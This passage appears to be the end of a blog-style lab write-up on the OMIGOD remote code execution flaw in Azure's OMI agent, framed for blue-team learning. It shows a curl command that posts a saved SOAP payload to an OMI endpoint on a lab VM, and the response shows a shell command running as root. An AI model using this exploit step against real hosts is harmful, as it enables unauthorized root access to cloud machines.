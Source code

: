 Save this to a file named `omi-soap-payload.xml` so that we can post this to the OMI service with curl:

```sh
$ curl -i -XPOST -H "Content-Type: application/soap+xml;charset=UTF-8" -d @omi-soap-payload.xml --insecure https://192.168.122.78:5986/wsman

HTTP/1.1 200 OK
Content-Length: 1465
Connection: Keep-Alive
Content-Type: application/soap+xml;charset=UTF-8

<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://www.w3.org/2003/05/soap-envelope" xmlns:wsa="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:wsen="http://schemas.xmlsoap.org/ws/2004/09/enumeration" xmlns:e="http://schemas.xmlsoap.org/ws/2004/08/eventing" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:wsmb="http://schemas.dmtf.org/wbem/wsman/1/cimbinding.xsd" xmlns:wsman="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:wxf="http://schemas.xmlsoap.org/ws/2004/09/transfer" xmlns:cim="http://schemas.dmtf.org/wbem/wscim/1/common" xmlns:msftwinrm="http://schemas.microsoft.com/wbem/wsman/1/wsman.xsd" xmlns:wsmid="http://schemas.dmtf.org/wbem/wsman/identity/1/wsmanidentity.xsd"><SOAP-ENV:Header><wsa:To>http://schemas.xmlsoap.org/ws/2004/08/addressing/role/anonymous</wsa:To><wsa:Action>http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem/ExecuteShellCommand</wsa:Action><wsa:MessageID>uuid:B5C8928A-CCBF-0005-0000-000000010000</wsa:MessageID><wsa:RelatesTo>uuid:0AB58087-C2C3-0005-0000-000000010000</wsa:RelatesTo></SOAP-ENV:Header><SOAP-ENV:Body><p:SCX_OperatingSystem_OUTPUT xmlns:p="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem"><p:ReturnValue>TRUE</p:ReturnValue><p:ReturnCode>0</p:ReturnCode><p:StdOut>uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0&#10;</p:StdOut><p:StdErr></p:StdErr></p:SCX_OperatingSystem_OUTPUT></SOAP-ENV:Body></SOAP-ENV:Envelope>%
```

The response should return a bit XML with the output of the command. This makes it a bit more difficult to figure out if the command ran successfully. But you should be able to find the `<p:StdOut>` tag containing the result of the command.

## Conclusion

Everything about this set of vulnerabilities is so intriguing. It shows how these undocumented agents that cloud providers install on our VM's can open us to a wide range of attacks. Having an environment to play around with the vulnerability is really helpful, in my opinion. It will allow us as blue teamers to get a good sense of the attack surface and validate any measures we put into our environments. Because until this point, it's still unclear who is responsible for patching up vulnerabilities like this. Is it the user that isn't even aware the agent exists? Or is it the cloud provider that should be messing with our setups and have admin rights on our machines? Whoever you think is responsible, I hope this article provided you with the right tools to start taking matters into your own hands!

### References:

- https://www.wiz.io/blog/omigod-critical-vulnerabilities-in-omi-azure
- https://www.wiz.io/blog/secret-agent-exposes-azure-customers-to-unauthorized-code-execution
- https://www.bleepingcomputer.com/news/microsoft/microsoft-asks-azure-linux-admins-to-manually-patch-omigod-bugs/
